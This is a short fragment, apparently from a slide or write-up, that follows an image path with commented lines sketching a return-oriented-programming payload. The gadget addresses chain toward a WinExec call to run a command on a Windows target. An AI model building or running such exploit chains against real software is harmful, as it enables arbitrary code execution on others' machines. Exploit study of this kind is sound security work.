

# Payload
# 0x6000e839 -> pop eax; ret ;
# offset to cmd
# 0x6053a216 -> add eax, esp; ret ;
# 0x6009a56f -> xchg eax, edi; ret ;
# 0x602B1E80 -> push 1; push edi; call ds:WinExec